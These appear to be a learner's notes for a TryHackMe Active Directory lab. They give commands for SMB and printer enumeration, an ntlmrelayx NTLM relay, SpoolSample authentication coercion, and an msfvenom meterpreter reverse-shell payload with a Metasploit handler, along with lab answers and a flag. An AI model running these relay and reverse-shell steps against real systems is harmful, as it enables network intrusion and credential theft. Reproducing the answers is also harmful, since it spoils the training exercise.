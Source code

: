 ```powershell
Get-WmiObject Win32_Printer -Computer thmserver2.za.tryhackme.loc
Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc
```

```bash
nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc

dig thmserver1.za.tryhackme.loc

sudo impacket-ntlmrelayx -smb2support -t smb://"10.200.83.201" -c 'whoami /all' -debug
```

FROM THMWRK1 RDP

```powershell
C:\Tools\SpoolSample.exe THMSERVER2.za.tryhackmloc 10.50.81.66 # ip a s exploitad
```

Answer 1:
> 30

Answer 2:
> SMB signing

```cmd
# WinRM / mimikatz cmd shell from previous task
# ----------------------------------------------

cd C:\Users\Administrator.ZA\Desktop
type .\flag3.txt
```

> THM{Printing.Some.Shellz}

## Task 5

```cmd
# WinRM / mimikatz cmd shell / Task 3
# ------------------------------------

dir C:\Users\trevor.local\Documents
04/30/2022  04:36 PM             2,190 PasswordDatabase.kdbx
```

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=exploitad LPORT=443 -f psh -o service.ps1

sudo msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST exploitad
set LPORT 443
options
run
```
